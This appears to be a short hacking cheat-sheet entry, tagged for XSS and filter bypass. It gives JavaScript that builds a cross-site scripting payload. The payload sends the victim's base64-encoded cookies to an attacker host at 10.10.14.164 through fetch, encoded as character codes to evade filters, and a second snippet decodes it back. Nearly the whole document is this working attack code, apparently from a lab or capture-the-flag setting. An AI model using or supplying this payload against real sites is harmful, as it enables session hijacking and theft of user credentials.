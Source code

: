 
XSS cookie stealing using charcode bypass:
---
#xss #charcode #bypass #cookies 
```js
const attacker = `http://10.10.14.164/cb`;
const xssString = `var attacker = "${attacker}";
fetch(attacker + "?cb=" + encodeURI(btoa(document.cookie)));`
const payload = Array.from(xssString.split(''), ch => ch.charCodeAt(0)).join(',');
console.log(payload);
```
Reverse the payload:
---
```js
console.log(String.fromCharCode(...(payload.split(','))));
```